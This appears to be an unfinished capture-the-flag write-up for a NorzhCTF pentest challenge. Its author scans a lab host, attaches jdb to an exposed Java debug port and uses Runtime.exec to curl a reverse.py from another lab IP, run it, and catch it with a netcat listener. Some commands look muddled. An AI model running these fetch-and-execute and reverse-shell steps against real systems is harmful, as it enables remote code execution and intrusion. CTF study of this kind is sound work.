 # Leet Computer: Pentest 19

### One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.

My thought process...

1. ```nmap -Pn 10.40.3.230``` This is the ip that pinged us on the Discovery challenge.
   ```port 22 open ssh```
   ```port 8100 open http```
2. ```whatweb 10.40.3.230/8100``` Running Apache & PHP
3. ```telnet 10.40.3.230 8100``` Allows connection
4. *Install jdb*
5. ```jdb attach 10.40.3.230:8100```
6. ```stop in org.apache.logging.log4j.core.config.ConfigurationFileWatcher.isModified```
7. ```print new java.lang.Runtime().exec("sh -c $@|sh . curl 172.16.72.203:8888/reverse.py  -o /tmp/reverse.py")```
8. *Setup Netcat listener*
   ```nc -l 10.40.3.230```
9. ```print new java.lang.Runtime().exec("python3 /tmp/reverse.py")```
10. ```...```


**NOTE:** I did not finish this challenge before the competition ended. However, one of my teammates was able to solve before the competition ended.

Here is a write-up for this challenge by Łukasz Szymański: [Leet Computer](https://szymanski.ninja/en/ctfwriteups/2021/norzhctf2021/leet-computer/)

Another great write-up to check out by [@snix0](https://github.com/snix0) [https://github.com/snix0/norzhctf-writeup/blob/main/leet_computer/leet_computer.md](https://github.com/snix0/norzhctf-writeup/blob/main/leet_computer/leet_computer.md)
